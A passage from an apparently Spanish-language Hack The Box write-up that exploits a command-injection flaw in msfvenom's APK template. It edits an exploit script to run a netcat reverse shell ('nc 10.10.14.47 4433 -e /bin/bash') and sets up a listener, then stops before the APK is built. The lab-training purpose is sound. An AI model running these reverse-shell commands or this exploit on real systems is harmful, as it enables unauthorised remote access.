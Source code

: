 > `msfvenom` en pocas palabras nos permite crear payloads que podemos usar en muchos formatos y aplicaciones.

* [Creating Metasploit Payloads](https://netsec.ws/?p=331).

![314page5000_msfVinit](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000_msfVinit.png)

...

## Explotación [#](#explotacion) {#explotacion}

Si nos fijamos es el único que nos permite interactuar con la ejecución, podemos agregándole un template... Jmm si buscamos en internet `exploit template msfvenom`, obtenemos esto:

* [Metasploit Framework 6.0.11 - msfvenom APK template command injection](https://www.exploit-db.com/exploits/49491).

Se trata de una vulnerabilidad que permite ejecutar comandos en la generación de un APK para Android como template.

Viendo el código debemos cambiar los comandos que queremos ejecutar, intentemos establecer una Reverse Shell de una vez:

```py
...
# Change me·
payload = 'nc 10.10.14.47 4433 -e /bin/bash'
...
```

Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y ejecutamos el script para que nos genere el `.apk` malicioso con el que posteriormente ejecutaremos el proceso en la web:
